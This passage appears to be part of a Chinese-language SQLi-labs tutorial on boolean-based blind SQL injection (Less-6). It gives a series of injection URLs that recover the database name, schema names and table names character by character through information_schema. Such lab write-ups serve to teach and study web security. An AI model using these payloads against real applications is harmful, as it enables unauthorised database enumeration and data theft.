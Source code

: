 ```BASH
URL:必须添加第一个字符,以便进行猜解第二个字符;
http://sqli-labs.me:8888/Less-6/?id=1" and left(database(),2)='se'--+
```
```BASH
URL:没有第九个字符,会直接报错,如下面URL.
http://sqli-labs.me:8888/Less-6/?id=1" and left(database(),9)>'securitya'--+
```
### 1.1.2.爆库
```BASH
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and left((select schema_name from information_schema.schemata limit
0,1),1)='i'--+
```
![bool2](/images/sqlall/bool2.jpg)
```BASH
其他URL:
http://sqli-labs.me:8888/Less-6/?id=1" and left((select schema_name from information_schema.schemata limit
0,1),12)='information_'--+
```
![bool3](/images/sqlall/bool3.jpg)

1.1.2.1.第一张表

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and left((select table_name from information_schema.tables where
table_schema='security' limit 0,1),1)='e'--+
```

![bool4](/images/sqlall/bool4.jpg)

```bash
其他URL:
http://sqli-labs.me:8888/Less-6/?id=1" and left((select table_name from information_schema.tables where
table_schema='security' limit 0,1),3)=‘ema’--+
```

1.1.2.2.第二张表

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and left((select table_name from information_schema.tables where
table_schema='security' limit 1,1),1)='r'--+
```

![bool5](/images/sqlall/bool5.jpg)

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and left((select table_name from information_schema.tables where
table_schema='security' limit 1,1),2)='re'--+
```
